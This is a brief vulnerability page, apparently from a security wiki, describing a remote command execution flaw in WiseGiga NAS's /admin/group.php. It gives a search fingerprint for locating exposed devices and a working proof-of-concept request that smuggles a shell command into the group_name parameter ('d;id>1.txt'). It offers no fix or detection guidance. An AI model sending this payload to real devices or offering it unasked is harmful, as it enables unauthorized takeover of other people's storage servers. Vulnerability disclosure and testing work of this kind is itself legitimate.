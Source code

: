 # WiseGiga NAS group.php remote command execution vulnerability

## Vulnerability Description

WiseGiga NAS group.php file has a remote command execution vulnerability. Attackers can obtain server permissions by sending specific request packets.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WiseGiga NAS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="WISEGIGA-NAS"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626192524954.png)

Verify POC

```php
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656242636704-5f2865a9-4521-4d83-9e09-e39794f8204b-20220626192504901.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656242655760-33a64203-f341-4af7-a9b8-5aeb1ff66859-20220626192501808.png)